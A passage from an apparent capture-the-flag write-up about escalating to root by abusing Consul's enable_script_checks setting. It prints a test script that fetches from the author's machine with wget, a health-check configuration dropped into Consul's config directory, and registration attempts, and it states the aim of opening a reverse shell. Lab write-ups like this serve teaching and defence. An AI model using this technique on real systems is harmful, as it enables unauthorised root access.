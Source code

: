 The `consul.hcl` also had an interesting setting at the end.

```ini
enable_script_checks = true
```

I looked at the [documentation of this setting](https://developer.hashicorp.com/consul/docs/agent/config/cli-flags#_enable_script_checks) and saw a warning saying it could be used to get remote code execution.

> enable_script_checks: enable script checks regardless of how they are defined.
Security Warning: Enabling script checks in some configurations may introduce a remote execution vulnerability which is known to be targeted by malware. We strongly recommend enable_local_script_checks instead. See this blog post for more details.

At this point, I thought I had an easy way to get root. I had to create a [health check script](https://developer.hashicorp.com/consul/tutorials/developer-discovery/service-registration-health-checks) that would open a reverse shell to my machine and drop it in `/etc/consul.d/config.d/` to get it executed.

To test it, I create a small script that would hit my web server.

```bash
developer@ambassador:~$ cat /tmp/exploit.sh 
#!/bin/bash

wget http://10.10.14.143/consul
```

I created the configuration file and copied it to the folder I could write to.

```bash
developer@ambassador:~$ cat eric.json
{
    "check": {
            "name": "eric",
            "args": [
              "/tmp/exploit.sh"
            ],
            "interval": "10s",
            "timeout": "1s"
    }
}
developer@ambassador:~$ cp eric.json /etc/consul.d/config.d/
```

Then I waited, hoping that just dropping the configuration file was enough to get Consul to read it. It was not. I needed to find a way to get the service to reload its configuration. But it was running as root, so I could not restart it.

I tried using the command line to register my service. 

```bash
consul services register /etc/consul.d/config.d/eric.json
```

It returned without any errors, but it did not do anything. 

I also tried the API to register it. This time I got a `Permission denied` error.
